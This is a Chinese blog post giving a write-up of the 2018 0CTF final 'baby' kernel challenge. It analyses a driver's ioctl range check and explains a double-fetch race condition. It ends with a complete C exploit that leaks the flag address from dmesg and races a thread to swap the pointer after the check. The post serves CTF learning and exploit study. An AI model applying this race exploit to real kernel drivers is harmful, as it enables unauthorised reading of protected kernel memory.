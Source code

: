 ```yaml
---
layout: post
tags: [kernel_pwn]
title: "2018-0CTF-final baby 复现(race condition & double fetch)"
author: wsxk
date: 2022-11-2
comments: true
---
```


- [题目分析](#题目分析)
- [攻击思路 double fetch](#攻击思路-double-fetch)
- [exp](#exp)
- [references](#references)



## 题目分析<br>
首先查看一下启动脚本<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221102141735.png)
我们可以惊奇地发现，什么保护都没开（好耶！)<br>
再看看那个驱动的保护：
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221102141856.png)
发现也什么都没开。<br>
接下来分析一下代码：
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221102142025.png)<br>
ioctl函数提供了2个接口:<br>
一个是0x6666，它将会打印出flag的地址（内核）<br>
另一个是0x1337，这个功能首先`check`用户的输入（input_addr)是否合法。<br>
其中需要重点理解的有`_chk_range_not_ok`函数:
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221102143130.png)
这个函数首先将`第一个参数和第二个参数相加，判断是否发送进位（CF）`，再判断`第一个参数和第二个参数相加是否大于第三个参数`<br>
**2个条件必须同时满足才能通过检测**<br>
这里的第三个参数`*(_QWORD *)(__readgsqword((unsigned int)&current_task) + 4952)`看起来很复杂，仔细看，首先是`__readgsqword((unsigned int)&current_task)`,从函数名称可以看出这是读取以gs寄存器为基址索引的8个字节，偏移为`(unsigned int)&current_task`，其实就是读取了current_task在内核中的地址，然后以8字节为单位找到偏移为`4952`的值<br>
这里值得一提的是，我们还是不知道这个值是多少，需要调试去看一下。<br>
***注意，要想调试需要root权限，需要在init脚本里把 1000 改成 0，然后在启动脚本（start.sh)里添加-s选项***<br>
这里一般情况是没办法调试的
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221102150043.png)
因为不知为何，地址变成了奇奇怪怪的东西（，这就说明 使用 add-symbol-file添加符号不可行。<br>
因此需要用root权限来 `lsmod` 
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221102150144.png)
可以看到真正的驱动基地址。<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221102150212.png)
顺道一提，我惊奇的发现，基地址刚刚好就是check函数的地址，哈哈，也不用算偏移了。<br>
调试后发现，该值是 `0x7ffffffff000`
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221102150258.png)
刚刚好是栈底(<br>
从这个题目中，没有栈/堆的问题，似乎只是要我们猜flag<br>

## 攻击思路 double fetch<br>
我们可以利用 竞态条件（race condition）来绕过检测。<br>
`double fetch` 就是其中的一种。<br>
`double fetch`发送在以下条件：<br>
> 1. 用户往内核传送数据是以指针方式传送（意味着用户可以修改其所指向的内容）
> 2. 内核需要多次使用该指针来取值。

**double fetch直译就是取值2次**<br>
这次题目就满足了上述2个条件。<br>
double fetch正常情况图:
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/QQ%E5%9B%BE%E7%89%8720221102152018.jpg)<br>
attack后:
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/IMG_20221102_152239.jpg)<br>
说白了，`就是在一开始输入时，输入的参数是符合规范的`，在越过检测后，`修改参数为恶意地址`<br>
说的容易，其实我们没办法准确定位到第一次fetch和第二次fetch的时间，因此通常都采用爆破的手段。<br>

## exp<br>
```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>

struct request{
    size_t addr;
    size_t length;
};
pthread_t compete;
struct request input;
size_t flag_addr;
size_t competition_times = 0x100;
char flag[0x100];
int result_fd;
int success=0;

void * race_thread(void){
    while(!success){
        for(int i=0;i<competition_times;i++){
            input.addr=flag_addr;
        }
    }
}

int main(){
    int fd = open("/dev/baby",O_RDWR);
    if(fd<0){
        printf("error in open /dev/baby!\n");
    }
    
    //get flag addr
    ioctl(fd,0x6666,&input);
    system("dmesg | grep flag > 1.txt");
    int file_fd = open("/1.txt",O_RDONLY);
    char buf[0x100];
    read(file_fd,buf,0x100);
    char * flag_start = strstr(buf,"Your flag is at ")+strlen("Your flag is at ");
    char * flag_end = flag_start + 16;
    flag_addr = strtoull(flag_start,flag_end,16);
    printf("flag_addr:%p\n",flag_addr);
    
    //init input
    input.addr = buf;
    input.length = 33;

    //create thread
    pthread_create(&compete,NULL,race_thread,NULL);

    //start race condition!
    while(!success){
        for(int i=0;i<competition_times;i++){
            input.addr=buf;
            input.length=33;
            ioctl(fd,0x1337,&input);
            system("dmesg | grep flag > result.txt");
            result_fd = open("/result.txt",O_RDONLY);
            read(result_fd,flag,0x100);
            if(strstr(flag,"Looks like the flag is not a secret anymore.")){
                printf("get flag!\n");
                success=1;
                break;
            }
        }
    }

    // close thread
    pthread_cancel(compete);
    
}
```

## references<br>
[https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#Off-by-One](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#Off-by-One)<br>



<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>